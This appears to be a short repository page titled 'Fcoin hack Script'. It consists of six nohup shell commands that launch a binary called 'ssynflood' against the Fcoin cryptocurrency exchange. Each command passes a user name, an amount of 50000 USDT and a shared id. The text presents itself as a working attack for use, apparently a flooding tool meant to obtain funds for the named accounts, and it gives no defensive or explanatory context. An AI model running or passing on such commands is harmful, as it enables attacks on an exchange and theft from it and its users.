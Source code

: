 ## Fcoin hack Script 


nohup ./ssynflood --name "zhangjianxin" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &
nohup ./ssynflood --name "wing_small1" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &
nohup ./ssynflood --name "smartguo_guo" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &
nohup ./ssynflood --name "smartguo_ting" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &
nohup ./ssynflood --name "zhangjianxin" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &
nohup ./ssynflood --name "zhangjianxin" --amount "50000.00000000" --type "usdt"  --id "DBF9uRg3WBPwBCLKs0HrOQ"  &